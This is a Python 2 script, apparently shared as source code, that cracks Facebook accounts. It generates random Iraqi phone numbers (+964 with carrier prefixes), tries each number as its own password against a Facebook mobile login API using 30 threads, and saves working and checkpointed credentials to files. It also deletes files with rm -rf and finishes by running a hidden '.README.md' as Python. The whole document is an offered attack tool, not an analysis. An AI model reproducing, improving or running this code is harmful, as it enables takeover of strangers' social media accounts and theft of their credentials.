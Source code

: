 # VIPalmany.py
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass os.system('rm -rf .txt') for n in range(5999):     nmbr = random.randint(1111111, 9999999)     sys.stdout = open('.txt', 'a')     print nmbr     sys.stdout.flush()  try:     import requests except ImportError:     os.system('pip2 install requests')  try:     import mechanize except ImportError:     os.system('pip2 install mechanize')     time.sleep(1)     os.system('python2 nmbr.py')  from multiprocessing.pool import ThreadPool from requests.exceptions import ConnectionError from mechanize import Browser reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1) br.addheaders = [('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]  def exb():     print '[!] Exit'     os.sys.exit()   def psb(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.03)   def t():     time.sleep(1)   def cb():     os.system('clear')   logo = logo ="""   \n\x1b[1;33mMY TELEGRAM:@i4m_ALMANY \n\x1b[1;33mMY CHANALE:@russi_chanal  \033[33mtkaya gar edit dakayt ba nawman la gal bet \033[33toolaka ba xati korak zor sariha tool frea tkaya may frosha """ print("____________________________") back = 0 successful = [] cpb = [] oks = [] id = [] listgrup = [] vulnot = "\033[97mNot Vuln" vuln = "\033[97mVuln"  os.system("clear")  def menu():     os.system('clear')     print logo     print 42 * '\x1b[1;33m-'     print '[1]Cracker '     print '[2] IRAQ'      print '[0]BACK           '     print ' '     print 42 * '\x1b[1;33m-'     action()   def action():     global cpb     global oks     bch = raw_input('\n\x1b[1;33mhalbzhera  \x1b[1;97m>>>\x1b[1;90m  ')     if bch == '':         print '[!] Fill in correctly'         action()     elif bch == '1':         os.system('clear')         print logo         os.system         os.system("figlet ASHNA")         os.system("figlet HACKER")         print ('\x1b[1;33m750 770 751 771')         try:             c = raw_input('\x1b[1;33m halbzhera   : ')             k = '+964'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '2':         os.system('clear')         print logo         print '750- 751 - 752 - 770 - 771 - 772 - 780 - 781 - 782 - 783'         try:             c = raw_input(' halbzhera: ')             k = '+964'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()       elif bch == 'F':         os.system('clear')         print logo         print '\x1b[1;91m 14, 19'         try:             c = raw_input(' choose code  : ')             k = '+80'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '0':         exb()     else:         print '[!] Fill in correctly'         action()     xxx = str(len(id))     psb('[\xe2\x9c\x93] raqam: ' + xxx)     time.sleep(0.1)     psb('\x1b[1;92m[\xe2\x9c\x93]\x1b[1;92m crack daste pekrd ...')     time.sleep(0.1)     psb('[!] bo wastan dne tool CTRL+z')     time.sleep(0.5)     print 42 * '\x1b[1;91m='      def main(dla):         user = dla         try:             os.mkdir('save')         except OSError:             pass          try:             pass1 = user             data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=1&amp;email=' + k + c + user + '&amp;locale=en_US&amp;password=' + pass1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f98fb61fcd7aa0c44f58f522efm')             q = json.load(data)             if 'access_token' in q:                 print '\x1b[1;92m[HACK by ALMANY]\x1b[1;92m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'                 okb = open('save/successfull.txt', 'a')                 okb.write(k + c + user + '|' + pass1 + '\n')                 okb.close()                 oks.append(c + user + pass1)             elif 'www.facebook.com' in q['error_msg']:                 print '\x1b[1;97m[Check-point]\x1b[1;97m ' + k + c + user + ' | ' + pass1 + '\n'                 cps = open('save/checkpoint.txt', 'a')                 cps.write(k + c + user + '>>>' + pass1 + '\n')                 cps.close()                 cpb.append(c + user + pass1)         except:             pass      p = ThreadPool(30)     p.map(main, id)     print 42 * '\x1b[1;97m='     print '[\xe2\x9c\x93]\x1b[1;93m Process Has Been Completed ....'     print '[\xe2\x9c\x93]\x1b[1;92m Total OK/\x1b[1;97mCP : ' + str(len(oks)) + '/' + str(len(cpb))     print '[\xe2\x9c\x93]\x1b[1;97m CP File Has Been Saved : save/checkpoint.txt'     raw_input('\n[Press Enter To Go Back]')     os.system('python2 .README.md')   if __name__ == '__main__':     menu()
